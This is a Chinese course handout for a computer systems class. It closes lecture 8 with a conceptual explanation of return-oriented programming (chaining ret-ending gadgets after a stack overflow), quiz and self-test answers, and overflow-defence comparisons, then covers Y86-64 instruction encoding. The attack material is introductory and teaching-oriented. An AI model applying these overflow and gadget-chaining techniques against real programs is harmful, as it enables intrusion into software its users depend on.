这一段是拓展，了解思路即可。当栈地址随机化让人猜不到 buf 的位置、不可执行栈又让注入的机器码跑不起来之后，攻击者改用已经存在的、位置固定的、本就可执行的代码——这就是返回导向编程（ROP）。做法是在程序和库里找很多以 ret（字节 0xc3）结尾的短指令片段（称为 gadget），把它们的地址一个接一个排在栈上；每个 gadget 执行完的 ret 会自动跳到下一个 gadget，像串珠子一样拼出想要的效果（课件 p.48–53）。它绕不过金丝雀（仍然要靠溢出改返回地址），所以金丝雀依然有效。ROP 是 Attack Lab 后半部分的主题。课件 p.49–50 给出了寻找 gadget 的两种典型方式，执行模型见 图 10：
/* 示例 1（课件 p.49）：直接利用已有函数末尾的指令 + retq */
long ab_plus_c(long a, long b, long c) { return a*b + c; }
00000000004004d0 <ab_plus_c>:
4004d0: 48 0f af fe imul %rsi, %rdi
4004d4: 48 8d 04 17 lea (%rdi,%rdx,1), %rax # <-- 从 0x4004d4 进入：计算 %rax <- %rdi + %rdx
4004d8: c3 retq # <-- 0xc3 结尾，跳向栈上下一个 gadget 地址
/* 示例 2（课件 p.50）：利用 x86-64 变长指令编码，从指令中间字节偏移重新解释 */
void setval(unsigned *p) { *p = 3347663060u; }
00000000004004d9 <setval>:
4004d9: c7 07 d4 48 89 c7 movl $0xc78948d4, (%rdi) # 后 3 字节 48 89 c7 恰好编码 movq %rax, %rdi
4004df: c3 retq # <-- 若从 0x4004dc 进入：执行 movq %rax,%rdi; retq图 10 课件 p.51、p.53：返回导向编程（ROP）概念示意——栈上依次排列 gadget 地址，靠末尾 ret（0xc3）串起执行流
如 图 10 所示（课件 p.51–53），若把栈上的原返回地址覆写为 Gadget 1 的地址 0x4004d4、紧挨着其上方栈槽再放 Gadget 2 的地址 0x4004dc，那么：① echo 执行 ret 时弹出 0x4004d4 跳入 Gadget 1，完成 %rax ← %rdi + %rdx；② Gadget 1 末尾的 ret 自动从上移 8 字节后的 %rsp 弹出 0x4004dc 跳入 Gadget 2，完成 %rdi ← %rax（两者合起来实现 %rdi ← %rdi + %rdx）；③ Gadget 2 末尾的 ret 再继续弹出更高地址处的下一个栈槽。注意多条 gadget 地址会在栈上向高地址连续铺开、覆盖调用者的栈帧。
第二部分 2025 阶段测验第 8 讲真题解析#
2025 年第 1 次阶段测验的第 8 讲部分共 8 分，两道题，恰好覆盖本讲两个重点：用 union 看字节序、缓冲区溢出防御对比。
第 23 题（大端字节序）union { unsigned char c[8]; unsigned int i[2]; } dw;，for(j=0;j<8;j++) dw.c[j]=0xC0+j; 若在大端机器（如 Sun）上运行，printf("Ints 0-1 == [0x%x,0x%x]", dw.i[0], dw.i[1]) 输出什么？
先把 8 个字节按下标填好：c[0..7] = C0 C1 C2 C3 C4 C5 C6 C7（这一步与字节序无关）。i[0] 占 c[0..3]，i[1] 占 c[4..7]。大端下最低地址 c[0] 是最高位字节，所以 i[0] = 0xC0C1C2C3，i[1] = 0xC4C5C6C7。
答案
Ints 0-1 == [0xC0C1C2C3,0xC4C5C6C7]。（对照：小端 x86-64 上会是 0xC3C2C1C0 和 0xC7C6C5C4，即每 4 个字节倒序拼。两种均已用程序验证。）
第 24 题（缓冲区溢出防御对比）课上讲授了防御或避免缓冲区攻击的几种主要方法，分析它们是否需要①修改用户程序源代码、②重新编译用户程序、③更新 CPU 硬件（每格一空）。
表 9 2025 阶段测验第 24 题：四种防御方法对比答案
| 方法 | ①改源码 | ②重新编译 | ③换 CPU 硬件 |
|---|---|---|---|
| 使用 fgets() 等安全的库函数 | 是 | 是 | 否 |
| 栈初始位置随机化（ASLR） | 否 | 否 | 否 |
| 在内存访问权限上设置“可执行”位（NX） | 否 | 否 | 是 |
| “金丝雀”（哨兵）机制 | 否 | 是 | 否 |
这道题的解析是：fgets 要改源代码里的函数调用，当然也要重新编译。ASLR 是操作系统在加载时做的，三样都不用改。NX 是给内存页加“执行”权限位，依赖 CPU/MMU 的硬件支持（x86-64 才加入显式执行权限），所以要换硬件。金丝雀是编译器插入的代码，要重新编译，但不改源码、不换硬件。这就是第 8.6 节那张对比表。
第三部分 复习速查#
3.1 要点一页纸#
| 主题 | 要点 |
|---|---|
| union 大小 | 最大字段大小，再按最大对齐取整；各字段从同地址重叠 |
| union 读位模式 | 重新解释位，不是数值转换；(float)u ≠ bit2float(u) |
| 字节序 | 小端=低地址低位字节（x86-64）；大端=低地址高位字节（网络、SPARC） |
| 有/无字节序 | 数组/字符串按下标排，无字节序；多字节拼成一个数才有 |
| 内存布局（高→低） | Stack（↓,8MB,随机化）→ 共享库 → Heap（↑）→ Data → Text（0x400000） |
| 缓冲区溢出根源 | C 不查边界 + 不限长度的输入函数（gets/strcpy/scanf %s） |
| 为何危险 | 栈上字符数组溢出可盖掉返回地址，ret 跳到攻击者选的地址 |
| 危险/安全函数 | gets→fgets，strcpy→strncpy，scanf %s→fgets 或 %ns |
| 防御①改源码 | 用 fgets 等限长函数（唯一从源头消除） |
| 防御②系统级 | ASLR（地址随机化）、NX（栈不可执行，需硬件） |
| 防御③金丝雀 | %fs:0x28 取随机值放 buf 与返回地址之间，返回前校验 |
| ROP | 用已有的以 ret 结尾的 gadget 串联；绕过 ASLR+NX，但绕不过金丝雀 |
3.2 易错点清单#
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | union 大小 = 各字段之和 | = 最大字段，再按对齐取整 |
| 2 | bit2float(1) 得到 1.0 | 得到位模式 0x00000001，是最小非规格化数 ≈ 1.4e-45 |
| 3 | 字符串也分大小端 | 数组按下标存，无字节序；只有多字节整数才有 |
| 4 | 小端 i[0] = c[0]c[1]c[2]c[3] | 小端要倒着拼：i[0] = c[3]c[2]c[1]c[0] |
| 5 | 堆向下、栈向上增长 | 相反：栈向下（高→低），堆向上（低→高） |
| 6 | 递归爆栈 = 缓冲区溢出攻击 | 是耗尽 8MB 栈空间，与改返回地址的攻击不同 |
| 7 | gets 多写的 \0 不要紧 | 那一个 \0 就能盖掉返回地址最低字节导致崩溃 |
| 8 | 金丝雀不用重新编译 | 是编译器插入的代码，必须重新编译 |
| 9 | NX 靠改源码实现 | 靠内存页的执行权限位，需 CPU 硬件支持 |
| 10 | ASLR 能挡住 ROP | ROP 用位置固定的已有代码，专为绕过 ASLR+NX 而生 |
| 11 | 金丝雀能被 ROP 绕过 | ROP 仍要溢出改返回地址，必然冲掉金丝雀，绕不过 |
3.3 中英术语对照#
| English | 中文 | English | 中文 |
|---|---|---|---|
| union | 联合 | bit pattern | 位模式 |
| byte order / endianness | 字节序 | big / little endian | 大端 / 小端 |
| memory layout | 内存布局 | stack / heap | 栈 / 堆 |
| text / data segment | 代码段 / 数据段 | shared library | 共享库 |
| out of bounds | 越界 | buffer overflow | 缓冲区溢出 |
| stack smashing | 栈粉碎 | return address | 返回地址 |
| code injection | 代码注入 | stack canary | 栈金丝雀 |
| ASLR (address randomization) | 地址随机化 | non-executable (NX) | 不可执行 |
| exploit / gadget | 攻击载荷 / 代码片段 | ROP | 返回导向编程 |
第四部分 自测题#
以下题目为新编，默认 x86-64 Linux、小端。
union U { char c[5]; int i; double d; }; 的 sizeof 是多少？为什么不是 5 或 17？
union { unsigned char c[4]; unsigned int i; } u; u.i = 0x12345678; 在小端机上，u.c[0]、u.c[3] 各是多少？
typedef union { float f; unsigned u; } bf; bf x; x.u = 0xC0000000; 则 x.f 是多少？它和 (float)0xC0000000u 相等吗？
把下面三段放到内存布局里，按地址从低到高排序：某函数的局部变量 p、malloc(16) 返回的指针所指内存、全局数组 g[100]、字符串常量 "hi"。
char buf[8]; 在 64 位栈帧里，返回地址在 buf 上方。gets(buf) 输入多少个字符时恰好开始破坏返回地址（设 buf 到返回地址之间无其他内容、栈帧为 sub $24 形式）？
金丝雀的值为什么要从 %fs:0x28 读、而且每次运行都不同？如果用一个固定的编译期常量当金丝雀，会有什么问题？
只开启 ASLR、不开金丝雀，能否防住“用注入到栈上的机器码执行”的攻击？只开 NX 呢？
为什么说 ROP 不需要向栈注入可执行代码，却仍然要利用缓冲区溢出？它能被金丝雀挡住吗？
自测题答案#
8。联合大小取最大字段：double 占 8 字节、按 8 对齐，c[5]（5 字节）和 i（4 字节）都落在这 8 字节内。不是 5（那只是 c 一个字段），也不是 17（那是把三个字段相加——联合是重叠不是相加）。总大小 8 已是对齐值 8 的倍数，无需再补。（若把数组改成 char c[9]，最大字段变成 9 字节、按 8 对齐取整才会变成 16。）
u.c[0] = 0x78（最低位字节在最低地址），u.c[3] = 0x12（最高位字节在最高地址）。
x.f 把位模式 0xC0000000 当 float 解释：符号 1、阶码 0x80=128、尾数 0 → −1.0 × 2^(128−127) = −2.0。而 (float)0xC0000000u 是把无符号数 3221225472 转成 float ≈ 3.22e9，两者不相等。
这些对象从低到高的顺序是：字符串常量 "hi"（数据段/只读）、全局数组 g[100]（数据段）、malloc 的内存（堆）、局部变量 p（栈，最高）。即 "hi" ≈ g < malloc < p。
24 个字符。buf 到返回地址之间共 24 字节（buf 8 + 其余 16），输入 24 个字符加结尾 \0 共 25 字节，第 25 字节（\0）正好落在返回地址最低字节上。（输入 23 个及以内不碰返回地址。）
%fs 段指向的区域只读，金丝雀每次运行由系统随机生成，攻击者无法预先知道该写什么值，溢出时无论写什么都几乎必然和原值不符而被查出。若用固定常量，攻击者只要在溢出串里把那个常量原样写进金丝雀的位置，就能骗过校验。
只开 ASLR 不一定挡得住——地址虽随机，但可被信息泄露或暴力猜测绕过；开 NX 能挡住这种攻击：栈不可执行，注入到栈上的机器码根本跑不起来。（这也是攻击者转向 ROP 的原因。）
ROP 复用程序和库里已经存在、位置固定、本就可执行的以 ret 结尾的片段（gadget），所以不需要注入新代码，天然绕过 NX 和 ASLR。但它仍然要靠缓冲区溢出把一串 gadget 地址写到栈上、改掉返回地址，必然冲掉金丝雀，所以挡得住。
—— 第 8 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 9 讲
处理器体系结构 I：指令集体系结构与逻辑设计（Processor Architecture I: ISA & Logic Design）
如何使用本讲义#
前八讲站在程序员的角度看机器：给定一条 x86-64 指令，它会怎样改变寄存器和内存。第 9 讲开始转到硬件设计者的角度，回答两个问题：一台处理器对外承诺了什么（指令集体系结构，ISA），以及要用什么样的硬件部件来兑现这个承诺（逻辑设计）。课程没有直接用庞大的 x86-64，而是用一个精简的教学指令集 Y86-64：它的状态和指令与 x86-64 十分相似，但编码规整得多，后面两讲（第 10 讲顺序实现、第 11 讲流水线实现）都以它为对象。本讲的前半部分（Part A）把 Y86-64 的每类指令、每个字节讲清楚，并完整走一遍“写程序—汇编—模拟运行”的过程；后半部分（Part B）介绍构造处理器所需的三类硬件：做计算的组合逻辑、存数据的寄存器和存储器，以及描述控制逻辑的硬件控制语言 HCL。
讲义中凡是给出机器码、程序输出、模拟器结果的地方，都由程序实际生成并核对过；凡是课件与教材不一致或课件有误的地方，都用橙色方框单独指出。编码图中黄色表示指令代码与功能码字节，粉色表示寄存器指示符字节，蓝色表示 8 字节常数；内存图统一画成“高地址在上、低地址在下”。
表 1 第 9 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| ISA 与处理器状态（p.3–4） | ISA 规定了什么；Y86-64 程序员可见的状态有哪些 | 9.1、9.2 |
| 指令集与编码（p.5–16） | 每条指令占几个字节、每个字节是什么意思 | 9.3 |
| 栈、调用与其他指令（p.17–21） | pushq/popq/call/ret 的语义；halt、nop；状态码 | 9.4、9.5 |
| 编写与运行 Y86-64 程序（p.22–24、p.51–55） | 从 C 到 Y86-64；程序结构；yas 汇编、yis 模拟 | 9.6 |
| CISC 与 RISC（p.56–61） | 两种设计哲学的区别；Y86-64 处在什么位置 | 9.7 |
| （讲义补充）设计取舍 | Y86-64 为什么这样设计，为什么够用 | 9.8 |
| 逻辑设计概述（p.26–27、p.37–38、p.62） | 数字信号、逻辑门、组合电路 | 9.9 |
| 位级与字级组合电路、HCL（p.28–31、p.44–48） | 相等判断、多路复用器、case 表达式 | 9.10、9.11 |
| ALU、寄存器、存储器（p.32–35、p.39–41） | ALU 的功能；时钟寄存器；寄存器文件的读写时序 | 9.12–9.14 |
| HCL 小结（p.42–43、p.49） | HCL 的数据类型与运算 | 9.15 |
| 附加页（p.65–71） | 一位存储：双稳态元件、锁存器、边沿触发 | 9.16 |
| （讲义补充）专题：写完整的 Y86-64 程序 | 启动代码、伪指令、参数与寄存器约定、栈的位置；典型错误 | 9.17 |
说明：2026 版课件的调整与本讲义的页码
关于页码，本讲义正文中的“课件 p.x”均指 2026 版（71 页）。研讨题题目沿用 2025 版页码，第二部分开头给出了对照。
A 部分（指令集）做了精简：p.3 把 ISA 说成“软件与硬件之间的合同”；p.4 在状态图上标注与 x86-64 的异同；p.10 把指令格式说明和寄存器编号合成一页；p.17–19 在栈、push/pop、call/ret 的标题上注明“same as x86”。2025 版中单独介绍 OPq 的一页、“尽量借助 C 编译器写 Y86”的一页和 len2 指针版本的一页被删去，讲义仍保留了这些内容（9.3、9.6 节）。
内容顺序也有调整：程序结构、yas/yis、CISC 与 RISC、MIPS 这些页移到了逻辑设计之后（p.51–61），中间还重复出现了一页跳转指令（p.50）；2025 版开头的“逻辑设计概述”“数字信号”两页移到了 p.62–63。
B 部分（逻辑设计）则换了讲法：先认识部件（p.26–35：数字信号、逻辑门、位与字的相等判断、多路复用器、ALU、寄存器、寄存器文件、存储器），再讲时序（p.36–41），最后才引入 HCL（p.42–48）。因此位相等、多路复用器等电路出现两次：第一次只画电路，第二次配上 HCL 表达式。本讲义仍按“电路与 HCL 一起讲”的顺序组织，小节标题中同时给出两处页码。
第一部分 第 9 讲知识点：ISA 与逻辑设计#
9.1 指令集体系结构是什么（课件 p.3）#
指令集体系结构（Instruction Set Architecture，ISA）是软件与硬件之间的一份“合同”。课件 p.3 的层次图（图 1）把它画在中间：上面是应用程序、编译器和操作系统，下面是 CPU 设计、电路设计和芯片版图。对上层而言，ISA 规定了“怎样给这台机器编程”——处理器有哪些状态（寄存器、条件码、程序计数器、内存），有哪些指令（如 addq、pushq、ret），每条指令怎样编码成字节，以及执行一条指令会怎样改变状态。对下层而言，ISA 规定了“需要造出一个什么样的东西”：只要最终表现出来的效果与合同一致，硬件内部可以使用各种技巧来加速。
图 1 ISA 是软件与硬件之间的“合同”（课件 p.3）
这里有一个贯穿后面几讲的关键区分：ISA 给程序员的模型是顺序执行的，一条指令完全执行完，下一条才开始；而实际的处理器往往同时处理多条指令（例如第 11 讲的流水线），只要保证程序看到的结果与顺序执行完全相同即可。x86-64 程序员在前八讲看到的正是 ISA 这一层；从本讲开始，我们要往下走一层，看看这份合同怎样用硬件兑现。
9.2 Y86-64 的程序员可见状态（课件 p.4）#
一条指令能读写的全部信息称为程序员可见状态（programmer-visible state）。Y86-64 的状态可以分成五部分（图 2）。程序寄存器文件 RF 有 15 个 64 位寄存器，名称和编号与 x86-64 完全相同，只是去掉了 %r15，这样 4 位编号中的 0xF 就可以空出来表示“没有寄存器”，在指令编码和硬件设计中多处用到。条件码 CC 只有 ZF（零）、SF（负）、OF（溢出）三个，由算术和逻辑指令设置；程序计数器 PC 存放下一条要执行的指令的地址；程序状态 Stat 表示程序是在正常运行，还是遇到了某种异常而停止（9.5 节）；内存 DMEM 是一个按字节编址的大数组，多字节的字按小端顺序存放，与 x86-64 相同。
图 2 Y86-64 的程序员可见状态（课件 p.4）
表 2 Y86-64 与 x86-64 的状态对比
| 状态 | Y86-64 | x86-64 | 带来的影响 |
|---|---|---|---|
| 程序寄存器 | 15 个（%rax～%r14） | 16 个（还有 %r15） | 编号 0xF 留作“无寄存器” |
| 条件码 | ZF、SF、OF | ZF、SF、OF、CF 等 | 没有 CF，无法做无符号比较：没有 ja、jb、cmova 等 |
| 程序计数器 | PC | %rip | 含义相同 |
| 程序状态 | Stat（AOK/HLT/ADR/INS） | 无对应的显式状态 | 异常时 x86-64 转交操作系统处理（第 16 讲） |
| 内存 | 字节数组，小端 | 字节数组，小端 | 相同；地址都是虚拟地址 |
2026 版课件 p.4 在状态图旁标注了哪些部分与 x86-64 不同（diff）、哪些相同（same）：程序寄存器少了 %r15，条件码只有三个，这两项标为 diff；PC、程序状态和小端存储的内存标为 same，与表 2 一致。严格地说，x86-64 并没有一个程序员可见的 Stat 寄存器，课件标 same 指的是“出错时停止执行、交给上层处理”这一做法相同。同页把条件码写成“Single-digit condition codes”，意思应是 single-bit（每个条件码只有 1 位）。
9.3 Y86-64 指令集与编码（课件 p.5–16）#
Y86-64 一共只有 12 类指令（课件 p.6 的 “#1”，图 3）。与 x86-64 相比，它最大的特点是编码规整：每条指令的长度是 1～10 字节，只看第一个字节就能确定指令长度。第 0 字节分成两个 4 位的半字节，高 4 位是指令代码 icode，低 4 位是功能码 ifun；对于 cmovXX、OPq、jXX 这三组指令，同一个 icode 下用不同的 ifun 区分具体操作，其余指令的 ifun 都是 0。需要寄存器操作数的指令有第 1 字节，称为寄存器指示符字节，高 4 位是 rA、低 4 位是 rB，用不到的那个位置填 0xF。需要常数的指令再跟一个 8 字节的常数字：irmovq 的立即数 V、rmmovq 和 mrmovq 的偏移量 D、jXX 和 call 的目标地址 Dest，一律按小端顺序存放。
图 3 Y86-64 全部指令的编码格式（课件 p.6–9），右侧为指令长度（字节）
课件 p.7–9 把三组带功能码的指令展开（表 3）。OPq 的四个运算是加、减、与、异或；cmovXX 的 6 种条件和 jXX 的 6 种条件一一对应，而且它们的功能码完全相同：1 表示 le，2 表示 l，3 表示 e，以此类推。功能码 0 分别留给了“无条件”的版本：jmp 是无条件跳转，rrmovq 则是“无条件的条件传送”，所以 rrmovq 的编码是 20，和 cmovXX 共用指令代码 2。所有条件都基于 ZF、SF、OF 三个条件码，含义与 x86-64 的有符号比较相同（第 5 讲），例如 le 的条件是 (SF ^ OF) | ZF。
表 3 三组指令的功能码（课件 p.7–9、p.14–16；2026 版删去了单独介绍 OPq 的一页，四个运算的功能码见 p.8）
| fn | OPq（icode 6） | cmovXX（icode 2） | jXX（icode 7） | 条件（由 CC 计算） |
|---|---|---|---|---|
| 0 | addq 60 | rrmovq 20 | jmp 70 | 无条件 |
| 1 | subq 61 | cmovle 21 | jle 71 | (SF ^ OF) | ZF |
| 2 | andq 62 | cmovl 22 | jl 72 | SF ^ OF |
| 3 | xorq 63 | cmove 23 | je 73 | ZF |
| 4 | — | cmovne 24 | jne 74 | ~ZF |
| 5 | — | cmovge 25 | jge 75 | ~(SF ^ OF) |
| 6 | — | cmovg 26 | jg 76 | ~(SF ^ OF) & ~ZF |
寄存器编号（课件 p.10）与 x86-64 中的编号完全相同：%rax、%rcx、%rdx、%rbx、%rsp、%rbp、%rsi、%rdi 依次是 0～7，%r8～%r14 是 8～0xE，0xF 表示无寄存器（见图 2 中每个寄存器右侧的小格）。注意顺序是 a、c、d、b 而不是字母顺序，这是从 8086 继承下来的历史编号。
⚠ 2026 版课件 p.5、p.10、p.14 的几处笔误
p.5 和 p.10 说指令的“第一个字节是指令类型，第二个字节是功能码，从第三个字节起是操作数”，这与 Y86-64 的实际编码不符：指令类型 icode 与功能码 ifun 是同一个字节的高 4 位和低 4 位（图 3 中的第 0 字节）；有寄存器操作数时，紧接着的第 1 字节是寄存器指示符 rA:rB；8 字节常数从第 1 字节（jXX、call）或第 2 字节（irmovq、rmmovq、mrmovq）开始。以 mrmovq 8(%rdi), %r14 为例，编码 50 e7 08 00 00 00 00 00 00 00 中，50 = icode 5 + ifun 0，e7 = rA 14 + rB 7。
p.10 把“操作数”拼成了 oprands，应为 operands；同页说寄存器编号“与 x86 几乎相同”，其实 0～14 号与 x86-64 完全相同，唯一的区别是 Y86-64 没有 %r15，把 0xF 留作“无寄存器”。
p.14 写“cmovne performs when ZE is clear”，ZE 应为 ZF：cmovne 在 ZF = 0（两数不等）时才执行传送。p.15 的“je 0x100 only jumps if ZF is set”是对的，两句放在一起对照，正好说明 ne 与 e 的条件互为相反。
有了这三张表，编码就是机械的拼接工作。以课件 p.11 的 addq %rax,%rsi 为例：OPq 的 icode 是 6，addq 的 fn 是 0，第 0 字节为 60；rA = %rax = 0，rB = %rsi = 6，第 1 字节为 06，所以编码是 60 06，共两个字节。它的语义是 rB ← rB + rA，并按结果设置条件码；Y86-64 的算术只能在两个寄存器之间进行，不能像 x86-64 那样直接带立即数或内存操作数。课件 p.13 把四种 mov 与 x86-64 的 movq 做了对照，表 4 补充了 gcc 实测的 x86-64 编码，可以看出两者的设计取向完全不同。
表 4 课件 p.13 的传送指令：Y86-64 与 x86-64 编码对照（x86-64 由 gcc 13 汇编、objdump 读出）
| Y86-64 指令 | Y86-64 编码 | x86-64 指令 | x86-64 编码 |
|---|---|---|---|
irmovq $0xabcd, %rdx | 30 f2 cd ab 00 00 00 00 00 00（10） | movq $0xabcd, %rdx | 48 c7 c2 cd ab 00 00（7） |
rrmovq %rsp, %rbx | 20 43（2） | movq %rsp, %rbx | 48 89 e3（3） |
mrmovq -12(%rbp), %rcx | 50 15 f4 ff ff ff ff ff ff ff（10） | movq -12(%rbp), %rcx | 48 8b 4d f4（4） |
rmmovq %rsi, 0x41c(%rsp) | 40 64 1c 04 00 00 00 00 00 00（10） | movq %rsi, 0x41c(%rsp) | 48 89 b4 24 1c 04 00 00（8） |
x86-64 为了节省空间，立即数和位移可以只占 1 或 4 个字节，代价是同一种操作有多种长度，CPU 必须先分析前缀、操作码和 ModR/M 字节才知道指令有多长；Y86-64 则一律使用 8 字节常数，指令虽然更长，但长度只由第一个字节决定，字段位置固定，硬件取指和译码都非常简单。图 4 把表 4 中两条访存指令和一条跳转指令逐字节拆开：rmmovq 的寄存器字节 64 中，rA = 6 是源寄存器 %rsi，rB = 4 是基址寄存器 %rsp；mrmovq 的偏移量 −12 写成 64 位补码 0xfffffffffffffff4，按小端先放最低字节 f4；jne 没有寄存器字节，第 1～8 字节直接就是目标的绝对地址。
图 4 三条指令的逐字节拆解（课件 p.13、p.54）
Y86-64 的传送指令按“源—目的”的种类拆成四条（课件 p.12）：rrmovq（寄存器到寄存器）、irmovq（立即数到寄存器）、rmmovq（寄存器到内存）、mrmovq（内存到寄存器），名字的第一个字母是源、第二个字母是目的。它不允许内存到内存的传送，也不允许把立即数直接写入内存，内存地址只有“偏移量 + 基址寄存器”一种形式，没有 x86-64 的变址寄存器和比例因子。跳转指令 jXX 与 x86-64 有一个重要区别（课件 p.15）：作为立即数或位移时 valC 为 8 字节有符号补码（例如 irmovq $-1 编码为 ff…ff），作跳转目标时则存放完整的 8 字节绝对地址，而 x86-64 的直接跳转使用相对于下一条指令地址的偏移量（研讨题 1（4）有详细对比）。
具体例子：手工反汇编 len 循环的 30 个字节
课件 p.54 中 len 函数的循环部分从地址 0x087 开始，字节依次为 60 80 60 97 50 27 00 00 00 00 00 00 00 00 62 22 74 87 00 00 00 00 00 00 00。反汇编的方法是：读第 0 字节，由高 4 位查出指令类型和长度，再按格式切出各个字段，然后从下一条指令的起点重复。
0x087 处的 60：icode 6 是 OPq，fn 0 是 addq，长度 2；寄存器字节 80 中 rA = 8（%r8）、rB = 0（%rax），所以是 addq %r8, %rax。0x089 处的 60 97 同理是 addq %r9, %rdi。0x08b 处的 50：icode 5 是 mrmovq，长度 10；寄存器字节 27 中 rA = 2（%rdx）是目的、rB = 7（%rdi）是基址，偏移量 8 个字节全为 0，所以是 mrmovq (%rdi), %rdx。0x095 处的 62 22 是 andq %rdx, %rdx。0x097 处的 74：icode 7、fn 4 是 jne，长度 9，后 8 个字节小端读出为 0x87，所以是 jne 0x087，正好跳回循环开头。最后一条指令结束于 0x0a0，与课件的列表完全一致。
如果某个位置的第 0 字节高 4 位大于 0xB（例如 0xC0），或者功能码超出范围（例如 0x67），这个字节就不是合法指令，模拟器会以 INS 状态停止（9.5 节）。
常见问题：为什么 rrmovq 的编码是 20，和条件传送共用一个指令代码？
rrmovq 可以看成“条件永远成立的 cmovXX”，正如 jmp 是“条件永远成立的 jXX”。把它们放进同一组，硬件实现时就可以统一处理：取指和译码阶段按同一种格式读出 rA、rB，执行阶段根据功能码和条件码算出一个“条件是否成立”的信号 Cnd，只有 Cnd 为 1 时才把结果写回 rB。对 rrmovq 而言 fn = 0，Cnd 恒为 1，于是不需要任何额外的电路。第 10 讲的顺序实现 SEQ 正是这样做的。
⚠ 读写 Y86-64 汇编时最容易出错的三点
第一，OPq 与 x86-64 一样采用 AT&T 顺序，subq rA, rB 计算的是 rB − rA，结果写回 rB，条件码按 rB − rA 设置。第二，Y86-64 没有 cmpq 和 testq，要比较两个值只能用 subq 或 andq，而它们会改写目的寄存器，所以常常先用 rrmovq 复制一份再减（作业 4.47 的代码就是这样写的）；andq %rdx, %rdx 不改变 %rdx 的值，是“测试 %rdx 是否为 0”的惯用写法。第三，所有常数都必须先用 irmovq 装进寄存器才能参与运算，addq $8, %rdi 在 Y86-64 中是不存在的。
9.4 栈、过程调用与其他指令（课件 p.17–20）#
Y86-64 的栈与 x86-64 完全相同（课件 p.17）：栈是内存中的一块区域，%rsp 存放栈顶元素的地址，栈向低地址增长。pushq rA 先把 %rsp 减 8，再把 rA 的值写到新的 %rsp 处；popq rA 先从 %rsp 处读出 8 字节，再把 %rsp 加 8，然后把读到的值写入 rA（课件 p.18）。两条指令的编码都是两个字节，寄存器字节的 rB 位置填 F，例如 pushq %rbp 是 a0 5f，popq %r12 是 b0 cf。call Dest 把下一条指令的地址（call 的地址加 9）压栈，然后跳到 Dest；ret 从栈顶弹出一个地址，作为下一条指令的地址（课件 p.19）。
剩下两条指令只有一个字节（课件 p.20）。nop 什么也不做，编码为 10；halt 让处理器停止执行，编码为 00。x86-64 也有 hlt 指令，但它是特权指令，用户程序执行会引发异常；Y86-64 用 halt 来结束模拟器的运行。把 halt 编码成 0x00 是有意的：如果程序因为错误跳进了一片从未写过、初始值为 0 的内存，处理器读到的第一条“指令”就是 halt，程序会立即停下来，而不是在一堆无意义的字节上乱跑。
常见问题：pushq %rsp 压入的是哪个值？popq %rsp 之后 %rsp 是多少？
这两条指令同时读写 %rsp，结果取决于“先算哪一步”。Y86-64 采用与 x86-64 相同的约定（教材练习题 4.7、4.8）：pushq %rsp 压入的是减 8 之前的旧 %rsp；popq %rsp 的结果是从内存中弹出的那个值，而不是加 8 之后的地址。在 x86-64 机器上用内联汇编实测，pushq %rsp 压入的值等于执行前的 %rsp；先压入 0x1234 再执行 popq %rsp，%rsp 变为 0x1234。在本讲义使用的 Y86-64 模拟器中运行同样的序列，结果相同。这个细节在第 10 讲设计 SEQ 的写回阶段时还会再出现：popq 要写两个寄存器（%rsp 和 rA），当 rA 就是 %rsp 时必须让“弹出的值”覆盖“加 8 后的值”。
9.5 程序状态码（课件 p.21）#
状态码 Stat 描述程序的总体执行状态，共有四种取值（表 5）。正常运行时为 AOK；执行 halt 后变为 HLT；访问了非法地址（无论是取指还是读写数据）变为 ADR；遇到非法的指令代码变为 INS。课件规定的期望行为很简单：只要不是 AOK，处理器就停止执行。在完整的系统中，处理器遇到异常时会转去执行操作系统的异常处理程序（第 16、17 讲的异常控制流），Y86-64 为了简化，直接停机并把状态报告出来。
表 5 Y86-64 的状态码（课件 p.21）
| 值 | 名称 | 含义 | 模拟器中的典型触发方式 |
|---|---|---|---|
| 1 | AOK | 正常运行 | — |
| 2 | HLT | 执行了 halt 指令 | 程序正常结束；或跳进了全 0 的内存 |
| 3 | ADR | 遇到非法地址 | 取指或 mrmovq/rmmovq/push/pop/call/ret 访问超出内存范围的地址 |
| 4 | INS | 遇到非法指令 | 第 0 字节为 0xC0～0xF0 等不存在的指令代码，或功能码不合法 |
9.6 编写与运行 Y86-64 程序（课件 p.22–24、p.51–55）#
写 Y86-64 程序的推荐路线（2025 版课件 p.23；2026 版 p.22 只保留了问题本身）是“尽量让 C 编译器替你干活”：先写 C 代码，用 gcc -Og -S 编译成 x86-64 汇编，再逐条“直译”成 Y86-64。课件用一个计算以 0 结尾的数组长度的函数 len 演示这一过程。第一次尝试是直接写数组下标版本（课件 p.23），gcc 生成的循环核心是 cmpq $0, (%rdi,%rax,8)，用到了比例变址寻址，而 Y86-64 没有这种寻址方式，也没有 cmpq，无法直接翻译。
第二次尝试（2025 版课件 p.25，2026 版删去了这一页）是把 C 代码改写成“模仿 Y86-64 风格”的指针版本 len2：用一个整数 ip 保存当前地址，每次加 sizeof(long)。课件说编译器会把两个版本转换成同样的中间形式，生成完全相同的代码。用 gcc 13 实测，这个结论在 -O1 下成立（两个函数的汇编逐行相同，len2 也被优化成了比例变址形式），在 -Og 下则不成立：-Og 保留了 len2 的指针递增写法（leaq 8(%rdi),%rax 与 testq），反而更接近我们想要的 Y86-64 代码。这正是课件所说的“现代编译器让直译更困难”：优化越强，生成的代码离源程序的结构越远。
len:
irmovq $1, %r8 # 常数 1
irmovq $8, %r9 # 常数 8
irmovq $0, %rax # len = 0
mrmovq (%rdi), %rdx # val = *a
andq %rdx, %rdx # 测试 val
je Done # 若为 0，跳到 Done
Loop:
addq %r8, %rax # len++
addq %r9, %rdi # a++（指针加 8 字节）
mrmovq (%rdi), %rdx # val = *a
andq %rdx, %rdx # 测试 val
jne Loop # 若不为 0，继续循环
Done:
ret这段代码体现了 Y86-64 编程的几个固定套路。由于算术指令不能带立即数，循环里要用到的常数 1 和 8 预先放进 %r8、%r9；由于没有 testq，用 andq %rdx, %rdx 设置条件码；由于没有比例变址，每次让指针 %rdi 自己加 8。整个函数采用“先判断、再进入 do-while 循环”的结构，与第 5 讲 -O1 下的 guarded-do 翻译方式一致。
